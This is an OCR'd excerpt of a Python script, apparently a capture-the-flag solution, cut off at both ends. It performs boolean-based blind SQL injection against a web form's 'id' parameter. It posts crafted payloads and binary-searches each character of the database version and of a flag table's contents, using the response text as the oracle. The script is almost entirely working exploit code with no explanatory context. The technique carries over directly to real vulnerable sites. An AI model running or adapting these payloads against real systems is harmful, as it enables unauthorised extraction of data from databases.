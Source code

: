 ```python
            if 'Nu1L' in  r.text:
                low = mid + 1
            if 'Error' in r.text:
                high = mid
                
            mid = (low+high)//2
            
            if low == high:
                flag = flag + chr(low)
                break

def get_version():
    flag = ''
    for i in range(1, 50):
        low = 32
        high = 126
        mid = (low+high)//2
        print(flag)
        
        while low < high:
            payload = f"0^(ascii(substr((SELECT VERSION()),{i},1))>{mid})"
            
            data = {
                'id': payload
            }
            
            r = requests.post(url=url, data=data)
            # print(r.text)
            if 'Nu1L' in  r.text:
                low = mid + 1
            if 'Error' in r.text:
                high = mid
                
            mid = (low+high)//2
            
            if low == high:
                flag = flag + chr(low)
                break


def get_flag():
    table = [',','-','0','1','2','3','4','5','6','7','8','9','_','a','b','c','d','e','f','g','h','i','j','k','l','m','n','o','p','q','r','s','t','u','v','w','x','y','z','{','}']
    flag = ''
    for i in range(1, 100):
        low = 0
        high = 41
        mid = (low+high)//2
        print(flag)
        
        while low < high:
            single_char = table[mid]
            
            tmp = flag + single_char
            
            payload = f"0 ^ ((1,'{tmp}')>(select * from f1ag_1s_h3r3_hhhhh))"
            data = {
                'id': payload
            }
            
            r = requests.post(url=url, data=data)
            # print(r.text)
            if 'Error' in  r.text:
```